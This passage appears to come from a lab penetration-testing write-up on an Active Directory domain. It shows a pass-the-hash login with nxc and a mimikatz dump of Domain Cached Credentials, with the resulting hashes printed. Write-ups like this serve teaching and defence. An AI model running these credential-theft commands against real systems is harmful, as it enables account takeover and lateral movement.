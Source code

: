 This local administrator hash can be used to access the `FS` machine using the `--local-auth` flag, do note that this password rotates so it may not be valid for long.

```
nxc smb fs.async.local -u 'Administrator' -H '71814d1859b0978e96b4b558548ba860' --local-auth
SMB         10.2.10.16      445    FS               [*] Windows Server 2022 Build 20348 x64 (name:FS) (domain:FS) (signing:False) (SMBv1:False) 
SMB         10.2.10.16      445    FS               [+] FS\Administrator:71814d1859b0978e96b4b558548ba860 (Pwn3d!)
```

### 4.2. Cache (DCC)

Domain Cached Credentials (DCC) allow users to log in with their domain accounts even when a machine is disconnected from the network. Windows store these credentials at `HKLM\Security\Cache`. These credentials are encrypted and not stored in the `NTLM` hash format, so they cannot be relayed and only cracked offline.

```
*Evil-WinRM* PS C:\windows\tasks> .\mimikatz.exe "token::elevate" "lsadump::cache" "exit"

  .#####.   mimikatz 2.2.0 (x64) #19041 Sep 19 2022 17:44:08
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

mimikatz(commandline) # token::elevate
Token Id  : 0
User name :
SID name  : NT AUTHORITY\SYSTEM

720     {0;000003e7} 1 D 33311          NT AUTHORITY\SYSTEM     S-1-5-18        (04g,21p)       Primary
 -> Impersonated !
 * Process Token : {0;3fcbd9f2} 0 D 1070684718  async\Tyler_ROSE        S-1-5-21-2085372437-1578838935-3393986013-1372  (11g,24p)       Primary
 * Thread Token  : {0;000003e7} 1 D 1070785784  NT AUTHORITY\SYSTEM     S-1-5-18        (04g,21p)       Impersonation (Delegation)

mimikatz(commandline) # lsadump::cache
Domain : FS
SysKey : da7f3024df727946f1eaf1a2056acd53

Local name : FS ( S-1-5-21-2179374997-3008092852-1119610992 )
Domain name : async ( S-1-5-21-2085372437-1578838935-3393986013 )
Domain FQDN : async.local

Policy subsystem is : 1.18
LSA Key(s) : 1, default {8f01388d-7b0e-aa21-55a7-1577434f91cb}
  [00] {8f01388d-7b0e-aa21-55a7-1577434f91cb} d1501d2e51d6d67bf83166f88e14baa2177c3c3b4337ebe40ee1a22bd7c7ba85

* Iteration is set to default (10240)

[NL$1 - 4/27/2025 9:53:28 PM]
RID       : 00000450 (1104)
User      : async\User
MsCacheV2 : 0f1ee2e3f11b21fbdd224f903e4b46d7

[NL$2 - 4/29/2025 5:40:40 PM]
RID       : 0000055d (1373)
User      : async\Austin_BROOKS
MsCacheV2 : 2125a57bf5b3109b9644f177290abee7
```

[fs.async.local]: PS C:\Users\Tyler_ROSE\Documents> whoami